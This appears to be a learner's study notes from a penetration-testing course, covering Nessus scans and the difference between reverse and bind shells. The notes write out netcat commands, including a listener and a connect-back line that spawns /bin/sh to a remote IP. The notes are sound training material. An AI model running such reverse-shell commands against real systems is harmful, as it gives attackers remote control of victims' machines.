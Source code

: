 ## Day 20/365

*note that notes for this course start with module 11, which is basically the middle-part of the course, I've previously went over the modules before this one some time ago and I'm now coming back to the course after building up better fundamentals, I strongly recommend this if you feel like the course becomes too complicated or you feel you're not learning enough*

Nessus can scan private addresses, up to 16 at a time (no websites or external hosts)

scans can be scheduled and adjusted for periods (yearly weekly etc)

![[Pasted image 20250221215021.png]]
*Nessus view*

![[Pasted image 20250221215106.png]]
*finished scan example*

---

## Exploitation Basics

### Reverse Shells vs Bind Shells

![[Pasted image 20250221215307.png]]
*Most common Shell (Netcat)*

Used 95% of the time

A shell is access to a machine (pop a shell = get access)

Reverse Shell = a victim connects to us, we're gonna listen

nc -lvp 4444  = listening to port 4444

nc 192.168.1.1 4444 -e /bin/sh = I wanna connect to this IP and when I do that I'm gonna establish this bin shell

![[Pasted image 20250221215544.png]]
*Bind Shell view*

Bind Shell = we open a port on the machine and then we connect to it, we fire of an exploit and that opens up a port

usually an external assesment

![[Pasted image 20250221220819.png]]
*Reverse Shell example, left side attacker, right side victim*

